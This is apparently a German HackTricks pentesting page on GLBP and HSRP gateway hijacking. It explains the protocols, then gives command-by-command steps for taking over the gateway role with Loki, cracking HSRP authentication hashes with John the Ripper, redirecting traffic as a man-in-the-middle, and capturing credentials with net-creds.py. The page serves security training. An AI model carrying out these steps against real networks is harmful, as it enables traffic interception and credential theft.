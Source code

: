# GLBP & HSRP Angriffe

{% hint style="success" %}
Lernen Sie AWS-Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen Sie GCP-Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegramm-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositorys senden.

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

## FHRP Hijacking Überblick

### Einblicke in FHRP
FHRP ist darauf ausgelegt, Netzwerkrobustheit zu bieten, indem mehrere Router zu einer einzigen virtuellen Einheit zusammengeführt werden, um die Lastenverteilung und Ausfallsicherheit zu verbessern. Cisco Systems hat prominente Protokolle in dieser Suite eingeführt, wie z.B. GLBP und HSRP.

### GLBP Protokoll Einblicke
Ciscos Kreation, GLBP, funktioniert auf dem TCP/IP-Stack und nutzt UDP auf Port 3222 für die Kommunikation. Router in einer GLBP-Gruppe tauschen "hello"-Pakete in 3-Sekunden-Intervallen aus. Wenn ein Router es versäumt, diese Pakete 10 Sekunden lang zu senden, wird davon ausgegangen, dass er offline ist. Diese Timer sind jedoch nicht festgelegt und können geändert werden.

### GLBP Operationen und Lastverteilung
GLBP zeichnet sich dadurch aus, dass es die Lastenverteilung über Router mithilfe einer einzigen virtuellen IP in Verbindung mit mehreren virtuellen MAC-Adressen ermöglicht. In einer GLBP-Gruppe ist jeder Router am Paketweiterleitungsprozess beteiligt. Im Gegensatz zu HSRP/VRRP bietet GLBP echtes Lastenausgleich durch verschiedene Mechanismen:

- **Host-abhängiger Lastenausgleich:** Behält die Zuweisung einer konsistenten AVF-MAC-Adresse an einen Host bei, was für stabile NAT-Konfigurationen unerlässlich ist.
- **Round-Robin-Lastenausgleich:** Der Standardansatz, der die Zuweisung von AVF-MAC-Adressen abwechselnd unter den anfragenden Hosts durchführt.
- **Gewichteter Round-Robin-Lastenausgleich:** Verteilt die Last basierend auf vordefinierten "Gewichts"-Metriken.

### Schlüsselkomponenten und Begriffe in GLBP
- **AVG (Active Virtual Gateway):** Der Hauptrouter, der für die Zuweisung von MAC-Adressen an Peer-Router verantwortlich ist.
- **AVF (Active Virtual Forwarder):** Ein Router, der zur Verwaltung des Netzwerkverkehrs bestimmt ist.
- **GLBP-Priorität:** Eine Metrik, die den AVG bestimmt, beginnend mit einem Standardwert von 100 und im Bereich von 1 bis 255.
- **GLBP-Gewicht:** Spiegelt die aktuelle Last auf einem Router wider, die entweder manuell oder durch Objektverfolgung angepasst werden kann.
- **GLBP-Virtuelle IP-Adresse:** Dient als Standard-Gateway des Netzwerks für alle verbundenen Geräte.

Für Interaktionen verwendet GLBP die reservierte Multicast-Adresse 224.0.0.102 und den UDP-Port 3222. Router senden "hello"-Pakete in 3-Sekunden-Intervallen und gelten als nicht betriebsbereit, wenn ein Paket über einen Zeitraum von 10 Sekunden verpasst wird.

### GLBP Angriffsmechanismus
Ein Angreifer kann zum primären Router werden, indem er ein GLBP-Paket mit dem höchsten Prioritätswert (255) sendet. Dies kann zu DoS- oder MITM-Angriffen führen, die das Abfangen oder Umleiten von Datenverkehr ermöglichen.

### Ausführen eines GLBP-Angriffs mit Loki
[Loki](https://github.com/raizo62/loki_on_kali) kann einen GLBP-Angriff durchführen, indem ein Paket mit einer Priorität und einem Gewicht von 255 eingespeist wird. Vor dem Angriff sind Schritte wie das Sammeln von Informationen wie der virtuellen IP-Adresse, der Authentifizierungspräsenz und den Router-Prioritätswerten mithilfe von Tools wie Wireshark erforderlich.

Angriffsschritte:
1. Wechseln Sie in den Promiskuitivmodus und aktivieren Sie die IP-Weiterleitung.
2. Identifizieren Sie den Zielrouter und rufen Sie dessen IP ab.
3. Generieren Sie eine Gratuits-ARP.
4. Injizieren Sie ein bösartiges GLBP-Paket, das den AVG imitiert.
5. Weisen Sie dem Netzwerkinterface des Angreifers eine sekundäre IP-Adresse zu, die der GLBP-Virtual-IP entspricht.
6. Implementieren Sie SNAT für eine vollständige Traffic-Sichtbarkeit.
7. Passen Sie das Routing an, um weiterhin den Internetzugriff über den ursprünglichen AVG-Router zu gewährleisten.

Durch Befolgen dieser Schritte positioniert sich der Angreifer als "Man in the Middle", der in der Lage ist, den Netzwerkverkehr abzufangen und zu analysieren, einschließlich unverschlüsselter oder sensibler Daten.

Für die Demonstration sind hier die erforderlichen Befehlsschnipsel:
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
### Passive Erklärung des HSRP-Hijackings mit Befehlsdetails

#### Überblick über HSRP (Hot Standby Router/Redundancy Protocol)
HSRP ist ein von Cisco entwickeltes Protokoll für die Redundanz des Netzwerkgateways. Es ermöglicht die Konfiguration mehrerer physischer Router zu einer einzigen logischen Einheit mit einer gemeinsamen IP-Adresse. Diese logische Einheit wird von einem primären Router verwaltet, der für die Weiterleitung des Datenverkehrs verantwortlich ist. Im Gegensatz zu GLBP, das Metriken wie Priorität und Gewicht für die Lastverteilung verwendet, verlässt sich HSRP auf einen einzigen aktiven Router für das Traffic-Management.

#### Rollen und Terminologie in HSRP
- **HSRP Active Router**: Das Gerät, das als Gateway fungiert und den Datenverkehrsfluss verwaltet.
- **HSRP Standby Router**: Ein Backup-Router, der bereit ist, die Rolle des aktiven Routers zu übernehmen, falls dieser ausfällt.
- **HSRP-Gruppe**: Eine Gruppe von Routern, die zusammenarbeiten, um einen einzigen widerstandsfähigen virtuellen Router zu bilden.
- **HSRP MAC-Adresse**: Eine virtuelle MAC-Adresse, die dem logischen Router im HSRP-Setup zugewiesen ist.
- **HSRP Virtuelle IP-Adresse**: Die virtuelle IP-Adresse der HSRP-Gruppe, die als Standardgateway für verbundene Geräte fungiert.

#### HSRP-Versionen
HSRP gibt es in zwei Versionen, HSRPv1 und HSRPv2, die sich hauptsächlich in der Gruppenkapazität, der Verwendung von Multicast-IP und der Struktur der virtuellen MAC-Adresse unterscheiden. Das Protokoll verwendet spezifische Multicast-IP-Adressen für den Austausch von Dienstinformationen, wobei Hello-Pakete alle 3 Sekunden gesendet werden. Ein Router gilt als inaktiv, wenn innerhalb eines Intervalls von 10 Sekunden kein Paket empfangen wird.

#### HSRP-Angriffsmechanismus
HSRP-Angriffe beinhalten das gewaltsame Übernehmen der Rolle des aktiven Routers durch das Einspritzen eines maximalen Prioritätswerts. Dies kann zu einem Man-In-The-Middle (MITM)-Angriff führen. Wesentliche Vor-Angriffsschritte umfassen das Sammeln von Daten über das HSRP-Setup, was mit Wireshark für die Traffic-Analyse durchgeführt werden kann.

#### Schritte zum Umgehen der HSRP-Authentifizierung
1. Speichern Sie den Netzwerkverkehr, der HSRP-Daten enthält, als .pcap-Datei.
```shell
tcpdump -w hsrp_traffic.pcap
```
2. Extrahieren Sie MD5-Hashes aus der .pcap-Datei mithilfe von hsrp2john.py.
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. Knacken Sie die MD5-Hashes mit John the Ripper.
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**Ausführen von HSRP-Injektion mit Loki**

1. Starten Sie Loki, um HSRP-Anzeigen zu identifizieren.
2. Setzen Sie die Netzwerkschnittstelle in den Promiscuous-Modus und aktivieren Sie IP-Weiterleitung.
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. Verwenden Sie Loki, um den spezifischen Router anzugreifen, geben Sie das geknackte HSRP-Passwort ein und führen Sie die erforderlichen Konfigurationen durch, um den aktiven Router zu imitieren.
4. Nachdem Sie die Rolle des aktiven Routers übernommen haben, konfigurieren Sie Ihre Netzwerkschnittstelle und IP-Tabellen, um den legitimen Datenverkehr abzufangen.
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. Ändern Sie die Routing-Tabelle, um den Datenverkehr über den ehemaligen aktiven Router zu leiten.
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. Verwenden Sie net-creds.py oder ein ähnliches Dienstprogramm, um Anmeldeinformationen aus dem abgefangenen Datenverkehr zu erfassen.
```shell
sudo python2 net-creds.py -i eth0
```

Durch die Ausführung dieser Schritte kann der Angreifer in die Lage versetzt werden, den Datenverkehr abzufangen und zu manipulieren, ähnlich dem Verfahren für das GLBP-Hijacking. Dies verdeutlicht die Schwachstelle in Redundanzprotokollen wie HSRP und die Notwendigkeit robuster Sicherheitsmaßnahmen.
